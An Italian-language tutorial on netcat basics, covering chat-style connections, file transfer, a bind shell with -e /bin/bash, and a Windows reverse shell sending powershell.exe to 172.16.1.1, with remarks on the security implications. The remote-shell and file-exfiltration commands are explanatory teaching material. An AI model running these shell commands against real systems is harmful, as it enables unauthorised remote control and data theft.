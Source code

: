 # Basi sull'utilizzo di netcat

## Introduzione

Netcat è un'utility che nasce in ambito Linux / Unix, ma disponibile anche per Windows, ed è considerata il coltellino svizzero usato sia in ambito networking che in ambito cybersecurity.

Il suo utilizzo basilare è molto semplice: viene avviato su un host in modalità server, e su un altro host in modalità client, e collegando il client al server è possibile instaurare una comunicazione tra due host; la cosa è utile per verificare se è possibile la connessione tra due host, ma non solo, le possibilità sono numerose, come illustrato nei prossimi paragrafi.

## Instaurare una connessione tra due host

Come scritto sopra, l'utilizzo tipico di netcat avviene tra due host, dove uno funge da server (e quindi rimane in attesa di connessioni) e l'altro da client; per lanciare il server dovrò eseguire un comando come questo:

~~~shell
nc -nlvp 22222
~~~

dove 22222 è la porta TCP usata per rimanere in ascolto, mentre per instaurare la connessione dal client dovrò usare il comando

~~~shell
nc -nv 172.16.1.1 22222
~~~

dove 172.16.1.1 è l'indirizzo IP del server netcat e 22222 è la porta TCP sul server che rimane in attesa di connessioni.

Una volta stabilita la connessione, è possibile scambiarsi messaggi di testo come in una sorta di chat, ma netcat può fare molto di più.

## Trasferire file tra due host

Netcat può servire per trasferire file tra due host, ma per fare questo, dovrò lanciare il server e il client in modo opportuno; per la parte server, eseguirò questo comando:

~~~shell
nc -nlvp 22222 > test/cattura.pcap
~~~

dove viene fatta una redirezione in output sul file test/cattura.pcap, mentre sul client il comando da lanciare è il seguente:

~~~shell
nc -nv 172.16.1.1 22222 < cattura.pcap
~~~

in cui viene preso in input il file cattura.pcap da trasferire sul server.

Questo uso di netcat può avere implicazioni importanti dal punto di vista della cybersecurity, poiché l'utility potrebbe essere usata per esfiltrare file da un host compromesso.

## Eseguire una shell sul server

Netcat può essere anche usato per eseguire una shell, come ad esempio aprire una shell sul server e connettersi dal client per poter eseguire quella shell; sul server dovremo usare il comando:

~~~shell
nc -nlvp 22222 -e /bin/bash
~~~

dove l'opzione -e serve per indicare il percorso di una shell utilizzabile (attenzione che su alcune distro Linux l'opzione -e non è disponibile), mentre sul client va eseguito il comando

~~~shell
nc -nv 172.16.1.1 22222
~~~

e magicamente avremo a disposizione una shell sul server con i privilegi dell'utente con il quale abbiamo lanciato netcat; anche in questo caso, le implicazioni sulla cybersecurity possono essere facilmente immaginate.

## Eseguire una reverse shell

A differenza dell'esempio precedente, una reverse shell (cioè il server che ha a propria disposizione una shell su un client) è ancora più impattante in termini di cybersecurity, poiché significa che il client potrebbe mettere a disposizione di un server esterno una propria shell, eseguita con i privilegi dell'utente con cui viene lanciato netcat.

Per eseguire una reverse shell, si mette normalmente in ascolto netcat sul server:

~~~shell
nc -nlvp 22222
~~~

mentre sul client (si prenda ad esempio un client Windows) viene eseguita la connessione al server

~~~shell
nc -nv 172.16.1.1 22222 -e powershell.exe
~~~

In questo modo il server 172.16.1.1 ha a disposizione una shell Powershell sul PC Windows che nel nostro esempio funge da client, e nel malaugurato caso che l'utente sia un amministratore, i danni che può fare un attaccante sono infiniti.